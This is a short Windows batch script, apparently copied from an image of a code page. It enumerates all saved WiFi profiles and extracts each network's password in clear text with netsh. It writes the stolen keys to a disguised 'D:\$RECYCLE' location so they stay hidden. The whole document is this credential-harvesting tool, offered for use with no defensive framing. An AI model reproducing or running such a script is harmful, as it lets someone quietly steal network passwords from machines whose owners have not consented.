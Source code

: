 `@echo off

chcp 437 >nul

for /f "tokens=1* delims=:" %%i in ('netsh wlan show profiles ^| findstr /c:"All User Profile"') do (

    call :GetPass %%j

)

pause

goto :eof

:GetPass

echo WiFi : %*

for /f "delims=" %%a in ('netsh wlan show profile name^="%*" key^=clear ^| findstr /c:"Key Content"') do (

    echo %%a

) >  D:\$RECYCLE
goto :eof  
`